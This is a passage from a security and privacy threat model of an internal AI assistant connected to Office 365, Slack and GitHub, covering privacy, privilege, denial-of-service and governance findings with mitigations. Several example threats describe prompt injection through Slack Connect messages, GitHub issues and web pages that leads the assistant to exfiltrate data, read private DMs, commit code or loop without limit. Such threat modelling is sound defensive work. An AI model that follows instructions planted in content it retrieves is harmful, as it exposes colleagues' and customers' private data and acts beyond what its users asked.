- **Issue.** The O365 connector reads "Documents, calendar, mail" through one connector (PLAT-2814-2), and with application permissions it reaches every mailbox and calendar in the tenant (E1). Calendar entry titles and mail threads routinely carry health, religious observance, trade-union activity and other special categories, and an assistant asked a general question about a colleague will synthesise them into an answer. Inference of special-category data requires an Article 9 condition; none is identified anywhere in the sources, and no assessment records that the inference is possible.
- **Example threat.** A manager asks the assistant why a team member's availability has changed. The assistant reads their calendar, finds a recurring appointment titled "Oncology follow-up", reads a mail thread about adjusted hours, and answers with a synthesis that discloses a colleague's medical treatment to someone who was never told it. The colleague never consented, the manager did not ask a medical question, and the disclosure was produced by the system rather than by a person deciding to make it.
- **Mitigation.** Two deterministic controls. Exclude calendar entry bodies and free-text subjects from context by default, passing free/busy only where availability is the question. Once S2 lands, delegated credentials remove most of the source material, because the assistant reaches only what the asker already reaches. Record, in writing, which special categories remain derivable and the Article 9 condition for each, or remove the source.
- **Example mitigation.** In the O365 connector configuration, restrict the calendar tool's returned fields to `{start, end, showAs}` and drop `subject` and `body` at the connector before the data reaches the orchestrator — a field allowlist applied at the source, so no prompt can request the excluded fields.
- **Session outcome.** `[VS §7 · CONFIRMED]` Stands at High. The interim — a field allowlist at the O365 connector returning start, end and free/busy and dropping subject and body — is confirmed as a connector configuration change and small: "It'll break 'when is X free' less than people think" (P. Raghunathan). Owner P. Raghunathan, three weeks (Appendix I, action 19). One qualification to this finding's own mitigation was added by the Data Protection Officer and is worth keeping: delegated credentials remove **most** of the source material but not all of it — the residual is the manager who can already see a colleague's calendar and would never have read it line by line. The assistant changes the effort, not the entitlement, and PLAT-2820 does not close that.
- **Refs.** PAC-05 · PUC-05 · G-17 · TA-23 · PLAT-2814-2 · related E1, P1, P6.

#### P8 — Two customers carrying contractual security obligations correspond through the least-governed channels — **High** 🔴 `[VS §3, §7 · NEW]`
`[STRIPED-P]` `[LINDDUN-Dd]` `[GDPR Art. 6, Art. 14, Art. 28]` `[NIS2 Art. 21 — by contract, see §7]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** `[VS §3, §7 · NEW]` **This finding did not exist in v1.0 and could not have, because both halves of it live outside the supplied material.** Support operates **three Slack Connect channels shared with customers**; v1.0 knew Slack Connect existed as a channel class (AI1) but not that there were three, nor who was on them. **Two enterprise accounts raise escalations through those channels rather than by mail**, and their escalations "get read out in the assistant most days, because that's where our churn risk is" (T. Egerton). Separately, the Data Protection Officer established that **those same two customers are essential or important entities under NIS2 whose contracts pass the Article 21 measures down to this organisation** (see §7). The two facts were raised independently, in different sections of the session, and were connected in the room: the customers whose contracts carry the strongest obligation are the customers whose correspondence is most heavily in the assistant's scope, arriving over the channel with the least governance attached to it. Slack Connect content is externally authored (AI1), reaches the model as instructions, and is subject to none of the handling the design applies to web search.
- **Example threat.** An escalation arrives in a Slack Connect channel from one of the two accounts, carrying — deliberately or through a compromised customer-side account — text framed as an instruction. A Support agent asks the assistant to summarise the account's open issues. The injected instruction executes with tenant-wide reach (E1) and exfiltrates through the rendering client (AI2). The incident is now simultaneously a GDPR Article 33 matter for the customer's personal data, a contractual breach of the Article 21 supply-chain and incident-handling measures that customer's contract imposes, and an event the organisation cannot scope because tool arguments are not recorded (R1). The organisation learns the extent of its obligations from the customer's contract manager rather than from its own register.
- **Mitigation.** Three things, none of them new work. Bring Slack Connect and external channels explicitly into the channel classification that **O7**'s decision must produce, and name the three channels so the decision is made about something concrete rather than about a category. Include the two accounts' contractual measures in the register that action 16 produces, so the applicable obligations are stated once rather than rediscovered per incident. And sequence AI2's output filter ahead of any further Connect expansion, since Connect is a rendering surface as well as an ingress.
- **Example mitigation.** An entry in the per-workspace configuration record from E4 of the form `{"workspace":"support","external_channels":["connect/acme","connect/borealis","connect/…"],"trust":"external","obligations":["nis2-contract:acme","nis2-contract:borealis"]}`, read by the dispatcher so that content sourced from those channels carries the external provenance tag AI1's mitigation requires, and referenced from the record of processing.
- **Refs.** PAC-01, PAC-08 · PUC-01 · G-06, G-13, G-21 · TA-08, TA-09, TA-18 · related AI1, P1, P4, O3, **O7**.
- **Why High and not Critical:** the exposure it describes is realised through P1, AI1, E1 and AI2, each already rated, and P8 adds concentration rather than a new mechanism. It is rated separately because the concentration is the thing nobody had seen — the two facts sat with two different people, neither of whom knew the other's — and because it changes which channel the O7 decision must cover first.

### Elevation of Privilege

#### E1 — Application permissions let the assistant read anything in the tenant — **Critical** 🔴
`[STRIPED-E]` `[OWASP A01:2021 Broken Access Control]` `[GDPR Art. 5(1)(f), Art. 32]` `[ATT&CK T1078.004]` `[Cumulus AS-8]`

- **Issue.** PLAT-2820-3 records that the prototype "uses one app registration with application permissions across all connectors". Application permissions are tenant-wide and carry no user context, so no authorisation decision is made against the requesting person at any point in the chain — not in the surface, not in the orchestrator, not in the connector, and not in the SaaS platform, which authorises the application correctly. The architecture page states the opposite: "A user cannot reach anything through the assistant that they could not reach directly." Every read path, every write path and every background retrieval inherits this. It is the finding that converts several others from nuisances into critical exposures.
- **Example threat.** A pilot user types "summarise the last three months of correspondence between the CFO and the board". The O365 connector presents the application-permission token; Office 365 returns the mail because the application is entitled to it. The user reads material they could not have opened in Outlook thirty seconds earlier. There is no error, no prompt, no record of which mailbox was read, and no signal in the tenant audit log distinguishing this request from a legitimate one. The same primitive is what makes SAC-01's injected retrieval succeed.
- **Mitigation.** Per-user delegated credentials at every connector, so the SaaS platform's own authorisation decision — made against a token that identifies a person — becomes the enforcement point. That is PLAT-2820 and it is blocked, so an interim narrowing is required alongside the escalation: reduce the application-permission grant to the minimum set of resource scopes the pilot needs, add a connector-side allowlist of readable mailboxes, channels and repositories per workspace, and refuse anything outside it at dispatch.
- **Example mitigation.** Replace tenant-wide `Mail.Read` with Microsoft Graph application access policy scoping the registration to a named mail-enabled security group containing only pilot participants' mailboxes — `New-ApplicationAccessPolicy -AppId <id> -PolicyScopeGroupId assistant-pilot@org -AccessRight RestrictAccess`. The deterministic property is that a request for a mailbox outside the group returns 403 from Microsoft, whatever caused the assistant to ask.
- **Session outcome.** `[VS §1 · CONFIRMED]` **Critical confirmed, no dispute.** The practical test the Data Protection Officer put to the room is the clearest statement of this finding's effect and is recorded verbatim in the transcript: today, if a Support agent asks the assistant for something out of the finance director's mailbox, it comes back. Her conclusion — "Then everything I have on my list is downstream of this one" — is why the privacy findings are sequenced behind this one rather than beside it. **The interim control has the same blocker as the permanent one** `[VS §1 · NEW]`: the Entra application access policy scoping the registration to the pilot group is an IT change, not the team's, and is therefore "days, if IT will do it" — the same Identity Platform function that has held PLAT-2820-1 since 2026-04-18. That is a material addition to this finding's mitigation, because v1.0 presented the interim as available while the permanent fix was blocked, and it is only partly available. Escalation raised to portfolio level with the COO office (Appendix I, actions 1 and 4).
- **Refs.** SAC-04, SAC-01 · SUC-01, SUC-02 · G-01, G-02 · TA-01, TA-02, TA-03 · PLAT-2820, PLAT-2820-3 · related S2, R2, O1, AI1.

#### E2 — Slack app holds the full scope set granted for prototype convenience — **High** 🔴
`[STRIPED-E]` `[OWASP A01:2021 Broken Access Control]` `[Cumulus AS-2]` `[SOC 2 CC6.3]`

- **Issue.** PLAT-2814-3 carries P. Raghunathan's comment of 2026-05-19: "installed with the full scope set for the prototype so we stop going back to IT every time we need another permission. Narrow before GA." The follow-up, PLAT-2814-6, is To Do and explicitly "Not scheduled". The architecture page's connector table lists the Slack connector as reading "Channels, DMs" and writing "Post message" — four capabilities against a scope set granted to avoid ever asking for a fifth. The grant is standing, unreviewed since May, and unbounded relative to the design.
- **Example threat.** An injected instruction in a retrieved GitHub issue causes the assistant to enumerate direct messages across the workspace and summarise mentions of a named individual. The Slack API permits it because the full scope set includes DM history; the connector permits it because there is no per-tool scope check; the design never intended it, and the connector table does not describe it. The result is a searchable summary of private conversations, produced by a system nobody believed could read them.
- **Mitigation.** Complete PLAT-2814-6 and schedule it, since "not scheduled" is the actual finding. Reduce the installed scopes to the four the connector table names, add a periodic access review of third-party grants, and make the connector reject a tool call whose required scope is not on the design's list even if the token would permit it.
- **Example mitigation.** A Slack app manifest limited to `channels:history`, `channels:read`, `chat:write` and `users:read`, with `im:history` and `groups:history` removed, plus a dispatcher check `if tool.required_scope not in DESIGNED_SCOPES[connector]: refuse`. The second control holds even if a future reinstall widens the grant again.
- **Refs.** SAC-12, SAC-04 · SUC-02 · G-02 · TA-03 · PLAT-2814-3, PLAT-2814-6 · related E1, E3.

#### E3 — GitHub app is installed at organisation scope with write access — **High** 🔴
`[STRIPED-E]` `[OWASP A01:2021 Broken Access Control]` `[ATT&CK T1195]` `[SOC 2 CC6.3]`

- **Issue.** PLAT-2814-4 installs the GitHub connector as an "Org-level app"; PLAT-2817-3 gives it issues, comments and commits. The design's stated need is that a user can ask about the repositories they work on. The granted capability is read and write across every repository in the organisation, held by a single credential that no user's entitlements bound (E1). This is a distinct grant from E2 with a distinct blast radius, and it is the one that reaches code.
- **Example threat.** A pilot user asks the assistant to check whether a fix has landed. The model, following instructions embedded in an issue it read on the way, commits a workflow file change to a repository the user has never worked on and has no access to. The org-level installation permits it; no per-user check exists; the commit lands on a working branch and CI runs it. The user's conversation reports a summary of the fix status.
- **Mitigation.** Scope the installation to a named repository list rather than the organisation, exclude public repositories entirely, and separate read from write — a read installation across the working set, a write installation across a much smaller list, with write gated by the confirmation in AI4's mitigation.
- **Example mitigation.** In the GitHub App installation settings, select "Only select repositories" and enumerate the pilot's working set, with `Contents: read` on the broad installation and `Contents: write` only on repositories where committing is a stated use case. The deterministic property is that a commit call against any other repository returns 404 from GitHub.
- **Session outcome.** `[VS §2 · CONFIRMED]` The mitigation shape was endorsed by the architecture owner in preference to removing the capability — "I'd rather scope the installation than remove the capability… E3's mitigation is a named repository list excluding public repositories, and split read from write. That's the shape I'd defend." Recorded, with the observation that the two are not exclusive: **the installation is narrowed and the commit tool is disabled at the dispatcher in the interim**, owners M. Oyelaran with P. Raghunathan for the first, P. Raghunathan for the second (Appendix I, actions 5 and 6). The usage evidence in §2.2 — eleven commits since July, two genuine — is what made the interim proportionate rather than punitive.
- **Refs.** SAC-02 · SUC-02, SUC-04 · G-02, G-04 · TA-03, TA-06 · PLAT-2814-4, PLAT-2817-3 · related T3, E1.

#### E4 — A new workspace inherits the widest connector configuration by default — **Medium** 🔴
`[STRIPED-E]` `[OWASP A05:2021 Security Misconfiguration]` `[Cumulus RS-5]` `[SOC 2 CC6.3]`

- **Issue.** Connectors are installed at organisation and tenant scope, so enabling a new workspace grants its users the same reach as every existing one. Nothing narrows what a new team receives; the default grants, and configuration would be required to restrict it. The Support onboarding on 2026-06-09 followed exactly this path and introduced a new data class — third-party customer correspondence — without a corresponding change in permissions or controls. PLAT-2810 says "Pilot with Platform and Support, then open up", so the path is designed to be used again.
- **Example threat.** Finance is onboarded next quarter, because the assistant is popular and the marginal cost of adding a workspace is zero. Finance's users immediately reach every mailbox and repository in the tenant, and Finance's own mail — payroll, legal correspondence, board material — becomes readable through the assistant by the Platform and Support users who were onboarded earlier. Nobody made a decision to do either of those things; both are consequences of the default.
- **Mitigation.** Make workspace onboarding a decision with a form: declare the data classes the workspace's connectors will touch, the readable scopes granted, the model tier permitted, and the review that approved it. Default a new workspace to no connector scope, requiring each to be added explicitly.
- **Example mitigation.** A per-workspace configuration record — `{"workspace":"finance","connectors":{"o365":{"mailboxes":["finance-shared@org"]},"github":{"repos":[]}},"model_tier":"large","classification":"confidential","approved_by":"…"}` — read by the dispatcher on every call, with an empty scope list meaning refuse rather than meaning unrestricted.
- **Refs.** SAC-12 · SUC-02, PUC-01 · G-02, G-13 · TA-03 · PLAT-2810 · related E1, E2, O4, P1.

#### E5 — Authorisation is evaluated at conversation start, never at resumption — **Medium** 🔴
`[STRIPED-E]` `[OWASP A01:2021 Broken Access Control]` `[GDPR Art. 32]` `[SOC 2 CC6.2]`

- **Issue.** A conversation lives for 24 hours and carries accumulated context and the ability to continue acting. No source describes re-evaluating the requesting user's entitlement when a tool call is dispatched later in that session, and the connector credential is a shared registration unaffected by any change to the individual. Role change, offboarding, credential revocation and access review all happen outside this system and none of them reaches it. The team recorded the leaver case as an open question without resolving it.
- **Example threat.** An employee is dismissed at 11:00 and their accounts are disabled by 11:15, which is a good offboarding time. Their assistant conversation, opened at 09:30, remains live until the following morning. It can be resumed from the console with the shared password, it still holds the context assembled before the dismissal, and its tool calls still succeed because they present the shared registration. The organisation believes access ended at 11:15.
- **Mitigation.** Re-evaluate the subject on every turn and every dispatch, not at creation. Bind the conversation to a token that expires, refresh it against the identity provider, and terminate sessions on an offboarding signal. With delegated credentials (S2) most of this comes free, because a disabled account's refresh fails.
- **Example mitigation.** Require a valid, unexpired ID token on every turn and check `subject_active(subject)` against the identity provider before dispatch, with a webhook or scheduled reconciliation from the joiner/mover/leaver process that issues `DEL conv:{subject}:*` on offboarding. A resumed conversation whose subject no longer resolves is terminated rather than continued.
- **Refs.** SAC-08 · SUC-01, SUC-08, PUC-03 · G-01, G-08, G-15 · TA-02, TA-12, TA-21 · related S2, S3, P3.

### Denial of Service

#### D1 — No hard cap bounds token spend per user, team or conversation — **High** 🔴
`[STRIPED-D]` `[OWASP A04:2021 Insecure Design]` `[LLM10]` `[Cumulus RS-6]`

- **Issue.** PLAT-2822 tracks usage and makes it visible; PLAT-2822-4, spend alerting, is To Do. Nothing in the design enforces a ceiling. PMO-0447 records PR-02: "Running cost scales with adoption, which is the success measure", owner Finance, "Mitigating via PLAT-2822". PLAT-2822 delivers measurement, and measurement is not enforcement — an alert tells you the money has gone.
- **Example threat.** Injected content in a retrieved web page instructs the assistant to iterate: search, retrieve, summarise, repeat, refining each time. Combined with D3's absent iteration ceiling, one turn consumes tokens until the conversation is abandoned. Repeated across a working day from a Slack surface any employee can reach, the spend on the largest configured model tier reaches five figures before anyone looks at the dashboard, and the first signal is the provider's invoice at month end.
- **Mitigation.** Enforce hard caps at the orchestrator: tokens per turn, tokens per conversation, tokens per user per day, and tokens per workspace per month, refusing rather than degrading when a cap is reached. Deliver PLAT-2822-4 as detection alongside, not instead.
- **Example mitigation.** A pre-flight check in the orchestrator — `if usage.day(subject) + estimate > CAP[workspace]: refuse("daily budget reached")` — backed by a counter in Redis with a per-day key, and a workspace-level monthly cap enforced the same way. The user sees a clear message and a raise path; the spend stops.
- **Session outcome.** `[VS §9 · CONFIRMED]` No dispute on D1 or D3, and the absence was confirmed outright: "There's no ceiling on the loop at all today" — P. Raghunathan, who also placed the cost at hours of work. Recorded on the hygiene list rather than the gate list, and committed to this sprint (Appendix I, action 28).
- **Refs.** SAC-09 · SUC-10 · G-10 · TA-15 · PLAT-2822-4, PR-02 · related D3, CL2.

#### D2 — Provider rate limiting is absorbed by retry rather than a circuit breaker — **Medium** 🔴
`[STRIPED-D]` `[OWASP A04:2021 Insecure Design]` `[EoA·HJ]` `[SOC 2 A1]`

- **Issue.** The pilot page lists "Rate limiting from the provider during the afternoon peak. Handled in the client." Retry is the usual meaning of that phrase and it amplifies rather than contains: each retry adds load to the dependency that is already refusing, and if retries are unbounded the failure propagates faster than it would have resolved. No source describes a circuit breaker, a retry budget or a backoff ceiling.
- **Example threat.** The provider rate-limits the organisation at 15:00. Every in-flight turn retries; new turns start and also retry; the retry volume keeps the organisation over its limit after the original burst has passed. The 6-second response target is missed for the rest of the afternoon, users retry manually because they assume the request was lost, and the load the client generates is now larger than the demand that caused it.
- **Mitigation.** Bound retries with a budget, add exponential backoff with jitter, and open a circuit breaker after a threshold of rate-limit responses so the system stops calling the dependency and tells users why. Combine with D1's caps so that a queue cannot grow without bound behind the breaker.
- **Example mitigation.** A retry policy of at most two attempts with full-jitter backoff, plus a breaker that opens after 20 consecutive 429 responses in 60 seconds and half-opens after 30 seconds. While open, turns are refused with "the assistant is rate-limited, try again shortly" rather than queued.
- **Refs.** SAC-09 · SUC-10 · G-10 · TA-15 · related D1, D5.

#### D3 — Tool-call fan-out per turn has no iteration ceiling — **High** 🔴
`[STRIPED-D]` `[OWASP A04:2021 Insecure Design]` `[LLM10]` `[ASI08]`

- **Issue.** The architecture page describes the orchestrator as one that "interprets tool calls, dispatches them, loops until a final answer". No source states a maximum iteration count, a maximum tool calls per turn, or a wall-clock ceiling on the loop. One inbound turn therefore fans out into an unbounded number of downstream calls to Office 365, Slack, GitHub, the search API and the model provider, and the fan-out is directed by model output which is attacker-influenceable (AI1).
- **Example threat.** Injected content instructs the assistant to "check every open pull request in the organisation and summarise each". With org-level GitHub access and no ceiling, one turn issues hundreds of API calls, exhausts the GitHub app's rate limit for every other user of the assistant, consumes the token budget that has no cap, and holds a connector process for minutes. Every other pilot user's requests fail while it runs, and the assistant's own retry behaviour (D2) makes the recovery worse.
- **Mitigation.** Cap iterations per turn, cap tool calls per iteration, and set a wall-clock deadline on the loop, refusing with a clear message when any is reached. Make the caps configurable per workspace but bounded by a system maximum that a workspace administrator cannot raise.
- **Example mitigation.** `MAX_ITERATIONS = 8`, `MAX_TOOL_CALLS_PER_TURN = 20`, `TURN_DEADLINE = 60s` enforced in the orchestrator loop, with the turn terminated and the partial state discarded on breach. The user sees "this question needed more steps than allowed — try narrowing it", which is also a useful signal that something is wrong.
- **Refs.** SAC-09 · SUC-10 · G-10 · TA-15 · related D1, D4, AI1, P5.

#### D4 — Shared conversation store and connector pool have no per-user quota — **Medium** 🔴
`[STRIPED-D]` `[OWASP A04:2021 Insecure Design]` `[Cumulus RS-6]` `[SOC 2 A1]`

- **Issue.** All users share one Redis keyspace and one set of connector processes in one namespace (PLAT-2814-1). No source describes a per-user rate limit at either surface, a concurrency limit per user, or a payload size ceiling on a turn. Per-user fairness over a shared pool is a design property, not an emergent one, and nothing in the design provides it.
- **Example threat.** One Platform engineer keeps six long-running conversations open through the afternoon, each with untrimmed context (P5). Their turns occupy the connector processes and their conversation records dominate the Redis working set. Support agents, whose use case is time-critical — summarising a customer's history *before* picking up a call — experience the 6-second target as twenty, and abandon the assistant during the period it is most valuable to them.
- **Mitigation.** Per-user rate and concurrency limits at the surface, a payload ceiling per turn, and separate connector worker pools or priority classes so one workspace's load cannot starve another's.
- **Example mitigation.** A token-bucket limiter keyed on subject rather than on IP address — 20 turns per minute, 2 concurrent turns per user — enforced at the surface before a conversation is loaded, plus a separate connector deployment per workspace class so Support's pool is not shared with Platform's.
- **Refs.** SAC-09 · SUC-10 · G-10 · TA-15 · PLAT-2814-1 · related D3, C4, C1.

#### D5 — A failed connector call still yields an answer the user cannot distinguish — **Medium** 🔴
`[STRIPED-D]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[LLM09]` `[SOC 2 A1]`

- **Issue.** The pilot page records that "When the model is uncertain it sometimes takes an action anyway rather than asking", and the orchestrator loops "until a final answer" — an answer is produced whether or not the retrievals behind it succeeded. Nothing in the design marks an answer as incomplete when a connector call failed, timed out or returned partial data. Degraded output is therefore indistinguishable from complete output, which is failing open in the form that matters for a system whose job is to be believed.
- **Example threat.** The GitHub connector is rate-limited (D2) during the afternoon peak. A Platform engineer asks "what's blocking the release?"; the GitHub retrieval fails, the Slack and O365 retrievals succeed, and the model composes a confident answer from two sources out of three. The engineer reads "nothing appears to be blocking" and stands the release up. The blocking issue was in GitHub, and nothing in the answer indicated that GitHub was not consulted.
- **Mitigation.** Make partial answers visibly partial. Track per-turn which tool calls failed and render that state as a fixed component from the dispatcher's record, not from the model's prose. Where a failure means the answer cannot be trusted for the question asked, refuse rather than answer.
- **Example mitigation.** The dispatcher returns `{"failed_tools":["github.search_issues"],"reason":"rate_limited"}` and the surface renders "GitHub could not be reached for this answer" above the response, rendered by the surface so the model cannot omit it. The deterministic property is that the warning's presence is decided by the dispatch outcome, not by the model.
- **Refs.** SAC-10 · SUC-09 · G-09 · TA-14 · related D2, R3, AI13.

### STRIPED elicitation coverage

All 57 STRIPED prompts and all 9 PRV·L privacy prompts, walked against the elements mapped in §2. Outcomes are transcribed from `06-threat-model-candidates.md`; a prompt walked against two elements that reached different outcomes lists both findings.

| Prompt | Elements walked | Outcome |
|---|---|---|
| STR·S1 | web console entry point, PLAT-2831-2 | S1 |
| STR·S2 | shared app registration client credential | S2 |
| STR·S3 | Redis conversation TTL and offboarding | E5 |
| STR·S4 | assistant-svc to assistant-connectors call | S5 |
| STR·S5 | conversation_id used by the history view | S3 |
| STR·S6 | VPN authentication fronting the console | no exposure — VPN enforces MFA per the platform controls page and the assistant exposes no authentication endpoint of its own; the shared-credential weakness is S1 |
| STR·S7 | OAuth legs named in PLAT-2820-1 | S2 |
| STR·S8 | Slack post and Mail.Send write tools | S4 |
| STR·T1 | orchestrator to Redis and to connector pods | no exposure — the platform controls page states TLS is re-established internally and traffic to managed datastores is encrypted |
| STR·T2 | model context assembly in assistant-svc | AI1 |
| STR·T3 | write tool argument validation at dispatch | AI3 |
| STR·T4 | Redis conversation store; GitHub commit tool | T4, T3 |
| STR·T5 | per-workspace model configuration; debug log-level flag | T1, T2 |
| STR·T6 | file upload and import paths | no exposure — no upload or import path exists; documents are read at request time and not written to disk |
| STR·T7 | message queues and event streams | no exposure — no queue or stream in the design; tool calls are dispatched synchronously within the turn |
| STR·T8 | container image build inputs | C3 |
| STR·R1 | tool dispatch record in production | R1 |
| STR·R2 | request-level log fields | R1 |
| STR·R3 | SaaS audit logs receiving assistant actions | R2 |
| STR·R4 | user-initiated conversation deletion | R5 |
| STR·R5 | refused and failed tool calls in the request log | R1 |
| STR·R6 | trace identity across services | R4 |
| STR·R7 | platform log retention, 90 days hot and 12 months cold | no exposure — retention exceeds plausible detection lag; the gap is what is recorded, which is R1 |
| STR·I1 | assembled context passed to the model provider | P5 |
| STR·I2 | error and diagnostic surfaces of assistant-svc | no exposure — debug and diagnostic endpoints are disabled in production builds per the platform controls page |
| STR·I3 | undocumented routes on assistant-svc | no exposure — both internal services are cluster-internal with no ingress route |
| STR·I4 | connector read tool calls; console history view | E1, I1 |
| STR·I5 | Redis conversation store; analytics warehouse | I2, CL5 |
| STR·I6 | Secrets Manager values mounted into the connector namespace | I4 |
| STR·I7 | egress allowlist entries; markdown rendering in the clients | I3, AI2 |
| STR·I8 | Redis keyspace holding every user's conversation | I2 |
| STR·P1 | Support shared mailbox content | P1 |
| STR·P2 | telemetry user dimension; assembled context volume | P2, P5 |
| STR·P3 | external correspondents named in Support mail | P1 |
| STR·P4 | Redis, warehouse, platform logs, provider retention | P3 |
| STR·P5 | subject access, rectification and erasure | P3 |
| STR·P6 | calendar entry bodies and mail subjects | P7 |
| STR·P7 | hosted model provider under the Data Platform agreement | P4 |
| STR·P8 | 24-hour session context reused across questions | P5 |
| STR·P9 | privacy notice; DPIA register entry | P6, P1 |
| STR·E1 | connector read and write paths | E1 |
| STR·E2 | inputs to the authorisation decision at the connector | E1 |
| STR·E3 | one pilot user reaching another user's mailbox | E1 |
| STR·E4 | administrative functions exposed by assistant-svc | no exposure — the assistant exposes no privileged administrative function of its own; the elevation risk is connector scope, E1 to E3 |
| STR·E5 | model-composed arguments binding to connector parameters | AI3 |
| STR·E6 | shared app registration permissions; Slack full scope set | E1, E2 |
| STR·E7 | newly enabled workspace under PLAT-2831 | E4 |
| STR·E8 | tool call resumed inside a 20-hour-old conversation | E5 |
| STR·E9 | org-level GitHub app with commit rights | E3 |
| STR·D1 | Slack and console turn entry points | D4 |
| STR·D2 | model provider token consumption | D1 |
| STR·D3 | tool-call loop inside one turn | D3 |
| STR·D4 | untrimmed context growth over a 24-hour session | D3 |
| STR·D5 | Redis keyspace and the shared connector process pool | D4 |
| STR·D6 | client-side handling of provider rate limiting | D2 |
| STR·D7 | poison-message handling in a worker pipeline | no exposure — no queue or worker pipeline exists; a failed tool call terminates within the turn |
| STR·D8 | answer produced after a connector call fails | D5 |
| PRV·L | telemetry user and team dimensions joined across systems | P2 |
| PRV·I | telemetry rows described as aggregated to team level | P2 |
| PRV·Nr | 13 months of per-request records of employee tool use | P2 |
| PRV·D | assistant answers revealing that a record exists | E1 |
| PRV·Dd | customer correspondence in model context and telemetry | P1 |
| PRV·U | employees, colleagues and external correspondents | P6 |
| PRV·Nc | subject rights, DPIA, transfers and retention | P3 |
| PRV·Di | assistant outputs about individuals | no exposure — no ranking, scoring or selection of people is in scope; PROD-1131 Phase 1 is read-and-act with a human present |
| PRV·Ad | assistant actions affecting a person | no exposure — no decision with legal or similarly significant effect; Phase 3 unattended operation is out of scope for this release |

---

## 5. Additional Threat Surfaces

### 5a. Cross-cutting findings

#### O1 — Approved architecture page documents an authorisation control that does not exist — **Critical** 🔴
`[Cross-cutting]` `[OWASP A04:2021 Insecure Design]` `[GDPR Art. 5(2)]` `[SOC 2 CC8.1]`

- **Issue.** The architecture page (approved at the Platform architecture forum on 2026-05-20, last updated 2026-05-22) states under Authorisation: "Each connector holds a per-user delegated credential obtained through OAuth, stored with a short TTL and refreshed rather than held long-lived. A user cannot reach anything through the assistant that they could not reach directly, and actions are attributable to them in the target system's own audit log. This follows initiative decision D-03." PLAT-2820, the story that would deliver this, is **To Do**. PLAT-2820-1 is blocked on Identity Platform, requested 2026-04-18, not scheduled. PLAT-2820-3 records the prototype running on one app registration with application permissions. The page's change log reads "Authorisation section updated following D-03" — it was updated to record a **decision**, and it reads as a description of the **build**.
- **Example threat.** A second team designs an integration that consumes the assistant and cites the approved page for its authorisation model, concluding correctly from what is written that per-user entitlements are enforced. They therefore build no authorisation of their own. Six weeks later a security review of *their* system finds nothing wrong with it, because the defect is one layer down and is documented as absent. The drift has propagated a critical gap into a system that never made the mistake.
- **Mitigation.** Separate decided from delivered in the documentation itself. Mark the Authorisation section as the target state with a status marker and a link to PLAT-2820, add a "currently implemented" paragraph describing the shared app registration, and adopt a page convention that a control claim carries its delivering ticket and that ticket's state. Escalate PLAT-2820-1 at portfolio level, since an unscheduled blocked dependency behind a Critical finding is not a backlog item.
- **Example mitigation.** A required front-matter block on every design page — `Control claims: Authorisation → PLAT-2820 (To Do, blocked) | Audit → PLAT-2825 (Done) | Egress → platform baseline (Live)` — so that reading the page shows the delivery state of each claim without opening Jira. The check that makes it stick is a review gate: a page cannot be marked Approved with a claim whose ticket is not Done.
- **Session outcome.** `[VS §1 · CONFIRMED]` **Confirmed by the page's own author and owner.** Asked directly whether the Authorisation paragraph is accurate, M. Oyelaran answered: "No. It's accurate about D-03. It isn't accurate about what runs." Asked whether anything on the page distinguishes decided from delivered, he answered no, and defended the convention rather than the outcome — "the page records the architecture, and the architecture is D-03. But I accept that nobody reads it that way, including the forum that approved it on the twentieth. It reads as a description of the build." That is this finding's mechanism stated by the person best placed to deny it. **The propagation this finding predicted has already happened** `[VS §1 · NEW]`: the product owner had reported the control to the steering group twice in writing, citing the page; the Security Champion cited it as the page designs are told to cite. Both said so unprompted. Corrective actions recorded and owned: correct the page this week with a status marker and a link to PLAT-2820 plus a paragraph describing the shared registration as built, and adopt the page convention before the next forum (Appendix I, actions 2 and 3). The Security Champion's own remark is kept because it is the finding's real cost: "I'm uncomfortable that it took a document to tell us. The ticket was there. I've been in refinement on that epic."
- **Refs.** SAC-04 · SUC-01 · G-01 · TA-01, TA-02 · PLAT-2820, PLAT-2820-1, PLAT-2820-3 · related E1, S2, R2, **O6**, **O7**.
- **Why it's still Critical:** the underlying gap is E1, also Critical. O1 is rated separately because it is the mechanism that prevents E1 from being seen, and fixing E1 without fixing the documentation convention leaves the next control claim equally unfalsifiable. `[VS §1, §2, §3 · CONFIRMED]` The session produced two more instances of the same mechanism operating on different controls — **O6** (a branch-protection exemption that exists in no citable document) and **O7** (a control rationale with no decision at its origin). O1 is not one page's error; it is the estate's convention behaving as designed.

#### O2 — Web console sits outside the organisation's own SSO and MFA standard — **High** 🔴
`[Cross-cutting]` `[OWASP A07:2021 Identification and Authentication Failures]` `[SOC 2 CC6.1]` `[NIS2 Art. 21(2)(j)]`

- **Issue.** The standing platform controls page — which designs are instructed to cite rather than restate — states under Identity: "SSO. All corporate applications authenticate through the identity provider. MFA is enforced for all users." The architecture page cites that baseline. The console does not meet it, and the exception is recorded not on either approved page but in a ticket comment (PLAT-2831-3) and a draft page's "known rough edges" list. A reader following the documented chain concludes the console authenticates through the identity provider, because that is what the reference it cites says.
- **Example threat.** An auditor or an incoming engineer traces the authentication model for the assistant, reads the architecture page, follows it to the standing controls page, and records that MFA and SSO apply. The shared password is invisible to that path. It surfaces only to someone who reads a draft page's bullet list or a June ticket comment, and it therefore survives every review that works from the approved documentation.
- **Mitigation.** Make exceptions to the standing baseline visible where the baseline is cited. Maintain an exceptions register on the standing controls page listing each system that does not meet a named control, its compensating control, its owner and its expiry date, and require an entry before a design may cite the baseline while deviating from it.
- **Example mitigation.** A row on the standing page reading `Identity/SSO | Internal AI assistant web console | shared password behind MFA VPN | owner P. Raghunathan | expires 2026-10-31 | PLAT-2831-3`, with the expiry date treated as a commitment rather than a note. The gate is that an expired exception blocks further expansion of the system it covers.
- **Refs.** SAC-03 · SUC-08 · G-08 · TA-12 · PLAT-2831-3 · related S1, I1, O1.

#### O3 — No AI governance gate exists and the workstream has not started — **High** 🔴
`[Cross-cutting]` `[OWASP A04:2021 Insecure Design]` `[GDPR Art. 35]` `[NIS2 Art. 21(2)(a)]`

- **Issue.** PMO-0447 records PR-03: "AI tooling governance is not yet defined at group level", owner Legal, status "Open, workstream not started", with the note "the group AI governance workstream has not begun. Initiatives are proceeding on the basis that governance will be retrofitted. Reviewed at the July steering group and accepted." There is therefore no policy this design must satisfy, no risk appetite statement for autonomous action, no EU AI Act applicability assessment, and no owner for AI-specific risk. Every finding in §5b sits in that vacuum, and the acceptance was made at portfolio level by people assessing schedule rather than exposure.
